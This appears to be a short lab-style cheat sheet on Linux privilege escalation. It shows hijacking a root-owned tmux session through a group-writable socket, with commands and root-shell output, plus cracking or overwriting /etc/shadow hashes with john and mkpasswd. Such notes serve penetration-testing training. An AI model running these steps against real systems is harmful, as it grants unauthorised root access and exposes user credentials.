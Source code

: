 ## Hijacking Tmux Sessions 

When not working in a tmux window, we can detach from the session, still leaving it active. For many reasons, a user may leave a tmux process running as a privileged user, such as root set up with weak permissions, and can be hijacked:
```console
zero@pio$ tmux -S /shareds new -s debugsess 
zero@pio$ chown root:devs /shareds
```

If we can compromise a user in the dev group, we can attach to this session and gain root access. Check for any running tmux processes:
```console
zero@pio$ ps aux | grep tmux 
```

Check permissions:
```console
zero@pio$ ls -la /shareds 

srw-rw---- 1 root devs 0 Sep  1 06:27 /shareds
```

Review our group membership:
```console
zero@pio$ id

uid=1000(htb) gid=1000(htb) groups=1000(htb),1011(devs)
```

Finally, attach to the tmux session:
```console
zero@pio$ tmux -S /shareds

id

uid=0(root) gid=0(root) groups=0(root)
```

---

# Files

## /etc/shadow
If we can read the file **/etc/shadow** we can try to break the hashes with **john**:
```console
zero@pio$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

If **/etc/shadow** is writeable we can change the passwords. First we need to generate one:
```console
zero@pio$ mkpasswd -m -sha-512 [password]
```
And then replace the hash.
